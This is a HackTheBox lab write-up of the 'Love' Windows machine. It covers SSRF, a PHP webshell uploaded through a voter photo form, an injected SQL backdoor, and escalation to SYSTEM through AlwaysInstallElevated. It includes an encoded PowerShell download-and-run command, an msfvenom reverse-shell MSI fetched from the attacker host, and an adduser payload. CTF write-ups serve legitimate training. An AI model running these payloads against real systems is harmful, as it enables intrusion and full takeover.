








---
tags:
  - hack
  - windows
---
# HackTheBox: [Love](https://app.hackthebox.com/machines/Love)

> [!tip]- Spoiler Summary
> Hacking this Windows box required some understanding of [SSRF](https://portswigger.net/web-security/ssrf), a file upload vulnerability, and how to abuse [`AlwaysInstallElevated`](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#alwaysinstallelevated).

## Services

### TCP

`nmap` TCP scan:

```text
# Nmap 7.94SVN scan initiated Wed Sep  4 11:51:04 2024 as: nmap -v --reason -Pn -T4 --min-rate 10000 -p- --open -sCV -oN nmap_tcp-love.htb.txt love.htb
Nmap scan report for love.htb (10.10.10.239)
Host is up, received user-set (0.097s latency).
rDNS record for 10.10.10.239: t
Not shown: 42721 closed tcp ports (reset), 22798 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON          VERSION
80/tcp    open  http         syn-ack ttl 127 Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-title: Voting System using PHP
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
135/tcp   open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
443/tcp   open  ssl/http     syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Issuer: commonName=staging.love.htb/organizationName=ValentineCorp/stateOrProvinceName=m/countryName=in
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-01-18T14:00:16
| Not valid after:  2022-01-18T14:00:16
| MD5:   bff0:1add:5048:afc8:b3cf:7140:6e68:5ff6
|_SHA-1: 83ed:29c4:70f6:4036:a6f4:2d4d:4cf6:18a2:e9e4:96c2
|_http-title: 403 Forbidden
| tls-alpn:
|_  http/1.1
445/tcp   open  microsoft-ds syn-ack ttl 127 Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)
3306/tcp  open  mysql?       syn-ack ttl 127
5000/tcp  open  http         syn-ack ttl 127 Apache httpd 2.4.46 (OpenSSL/1.1.1j PHP/7.3.27)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: 403 Forbidden
5040/tcp  open  unknown      syn-ack ttl 127
7680/tcp  open  pando-pub?   syn-ack ttl 127
49664/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
49670/tcp open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
Service Info: Hosts: www.example.com, LOVE, www.love.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time:
|   date: 2024-09-04T18:14:20
|_  start_date: N/A
| smb-os-discovery:
|   OS: Windows 10 Pro 19042 (Windows 10 Pro 6.3)
|   OS CPE: cpe:/o:microsoft:windows_10::-
|   Computer name: Love
|   NetBIOS computer name: LOVE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2024-09-04T11:14:22-07:00
|_clock-skew: mean: 2h41m33s, deviation: 4h02m31s, median: 21m32s
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   3:1:1:
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Sep  4 11:53:04 2024 -- 1 IP address (1 host up) scanned in 119.15 seconds
```

#### 80/tcp-http



`feroxbuster -u http://love.htb/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1`:

```console
...
301      GET        9l       30w      330c http://love.htb/images => http://love.htb/images/
301      GET        9l       30w      330c http://love.htb/Images => http://love.htb/Images/
301      GET        9l       30w      329c http://love.htb/admin => http://love.htb/admin/
302      GET        0l        0w        0c http://love.htb/login.php => index.php
```

Noticed `staging.love.htb` in the `nmap` service scan:





#### 3306/tcp-mysql

MariaDB is exposed but doesn't listen to remote connections:

```console
$ mysql --user=root --password='' --host=love.htb
ERROR 2002 (HY000): Received error packet before completion of TLS handshake. The authenticity of the following error cannot be verified: 1130 - Host '10.10.14.14' is not allowed to connect to this MariaDB server
```

#### 5000/tcp-http

Another service that ignores remote connections. (SSRF?)

```html
$ curl http://love.htb:5000/
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>403 Forbidden</title>
</head><body>
<h1>Forbidden</h1>
<p>You don't have permission to access this resource.</p>
<hr>
<address>Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27 Server at love.htb Port 5000</address>
</body></html>
```

## Remote Code Execution

Using the "scanner" at `http://staging.love.htb/beta.php`, it's possible to retrieve credentials from the server on `127.0.0.1:5000` that only responds to requests from localhost:



Those credentials work for `love.htb/admin/`:



I grabbed the `PHPSESSID` cookie via Burp and fuzzed the `/admin` directory:

```console
$ feroxbuster -u http://love.htb/admin -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -d1 -b 'PHPSESSID=18kq9t1q9vii32oiceoj5n41c2'
...
301      GET        9l       30w      329c http://love.htb/admin => http://love.htb/admin/
301      GET        9l       30w      338c http://love.htb/admin/includes => http://love.htb/admin/includes/
301      GET        9l       30w      338c http://love.htb/admin/Includes => http://love.htb/admin/Includes/
```

Looks like a SQLi at `/admin/positions.php`:



I struggled trying to do something useful with an `UPDATE` injection, but made no progress.

I also found this:

```http
POST /admin/positions_row.php HTTP/1.1
Host: love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 4
Origin: http://love.htb
DNT: 1
Connection: keep-alive
Referer: http://love.htb/admin/positions.php
Cookie: PHPSESSID=18kq9t1q9vii32oiceoj5n41c2

id='
```

```http
HTTP/1.1 200 OK
Date: Wed, 04 Sep 2024 19:01:09 GMT
Server: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
X-Powered-By: PHP/7.3.27
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Content-Length: 252
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<br />
<b>Fatal error</b>:  Uncaught Error: Call to a member function fetch_assoc() on bool in C:\xampp\htdocs\omrs\admin\positions_row.php:8
Stack trace:
#0 {main}
  thrown in <b>C:\xampp\htdocs\omrs\admin\positions_row.php</b> on line <b>8</b><br />
```

However, I couldn't get that to produce results either.

I finally found an RCE path via `/admin/voters_add.php`. New voter profiles upload a profile photo to the `/images/` directory. This request can be intercepted and modified to upload a PHP webshell:

```http
POST /admin/voters_add.php HTTP/1.1
Host: love.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------6162343632466008669555397480
Content-Length: 772
Origin: http://love.htb
DNT: 1
Connection: keep-alive
Referer: http://love.htb/admin/voters.php
Cookie: PHPSESSID=18kq9t1q9vii32oiceoj5n41c2
Upgrade-Insecure-Requests: 1

-----------------------------6162343632466008669555397480
  Content-Disposition: form-data; name="firstname"

leet
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="lastname"

hax0r
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="password"

haxhax
-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="photo"; filename="haxd.php"
Content-Type: image/png

‰<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>

-----------------------------6162343632466008669555397480
Content-Disposition: form-data; name="add"

-----------------------------6162343632466008669555397480--
```

With that, `curl` can be used for arbitrary shell commands:

```console
$ curl http://love.htb/images/haxd.php?cmd=whoami
love\phoebe
```

And that also works for creating a more stable [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) connection:

```console
curl http://love.htb/images/haxd.php?cmd=powershell%20-e%20aQBlAHgAKABpAHcAcgAgAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMQA0AC8AYwBvAG4AcAB0AHkAcwBoAC0ANAA0ADMALgBwAHMAMQAgAC0AdQBzAGUAYgBhAHMAaQBjAHAAYQByAHMAaQBuAGcAKQAKAA== &
```

```powershell
listening on [any] 443 ...
                          connect to [10.10.14.14] from (UNKNOWN) [10.10.10.239] 52723
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\xampp\htdocs\omrs\images> whoami
love\phoebe
PS C:\xampp\htdocs\omrs\images> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

## Privilege Escalation

Because I couldn't connect to the MariaDB port from my attack machine, I couldn't forward a port using `netsh`, and (for reasons I still don't understand) I couldn't pivot using LigoloNG, I eventually put this in `/admin/home.php` to facilitate arbitrary SQL queries:

```php
...
<h3>Votes Tally</h3>
  <span class="pull-right">
    <a href="print.php" class="btn btn-success btn-sm btn-flat"><span class="glyphicon glyphicon-print"></span> Print</a>
  </span>

<pre>
<?php
    if(isset($_GET['sql']))
    {
      $result = $conn->query($_GET['sql'], MYSQLI_USE_RESULT);
      if($result) {
        while($row = $result->fetch_assoc()) {
          echo json_encode($row) . "<br>";
        }
      } else {
        echo "Error: " . $conn->error;
      }
    }
?>
</pre>
...
```

Here's `http://love.htb/admin/home.php?sql=show%20databases`:



I was hoping to recover another password hash that way, but didn't find anything.

Both `WinPEAS` and `PowerUp.ps1` pointed out that the `AlwaysInstallElevated` registry keys were set.

```powershell
PS C:\Users\Phoebe> reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
    
PS C:\Users\Phoebe> reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

However, I tried abusing this a few different ways and couldn't get a system shell to work. I finally figured out that `msiexec.exe` is finicky about its parameters. The following approach worked.

First, prepare the payload:

```console
$ msfvenom -p windows -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=443 -f msi -o ~/www/rev.msi
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of msi file: 159744 bytes
Saved as: /home/e/www/rev.msi
```

Fetch the payload to the target and install it via [msiexec](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/msiexec):

```powershell
PS C:\Users\Phoebe> iwr 10.10.14.6/rev.msi -outfile rev.msi
PS C:\Users\Phoebe> msiexec /quiet /qn /i rev.msi
```

And that's a system shell:

```powershell
listening on [any] 443 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 64396
Windows PowerShell running as user Phoebe on LOVE
Copyright (C) Microsoft Corporation. All rights reserved.

whoami
nt authority\system
PS C:\WINDOWS\system32>
```

### Why PrivEsc Was Hard

I burned most of a day trying to elevate privileges on this box, because a few different attempts at abusing `AlwaysInstallElevated` didn't work, and so I kept trying everything else until I finally came back to this and figured out the issue.

For example, my original payload for the MSI file was `windows/adduser` as recommended by [HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation):

```console
msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi-nouac -o ~/www/alwe.msi
```

But that didn't work.

I also tried a `windows/exec` payload that triggered a reverse shell executable, in a second binary, but it returned a shell as `Phoebe` not `system`.

It wasn't until I tried using the `windows/x64/shell_reverse_tcp` payload directly inside the MSI file that it worked.

Also, a small syntax issue with `msiexec` led me to wasting a _lot_ of time. This is the working version of the command:

```powershell
PS C:\Users\Phoebe> msiexec /quiet /qn /i rev.msi
```

But this version does NOT work:

```powershell
PS C:\Users\Phoebe> msiexec /quiet /qn /i ./rev.msi
```

This second version executes but fails silently when using the `./` relative path notation.

I discovered later that this Microsoft warns about this specifically for `msiexec` in [their documentation](https://learn.microsoft.com/en-us/windows-server/manage/windows-admin-center/deploy/install) 🙃:


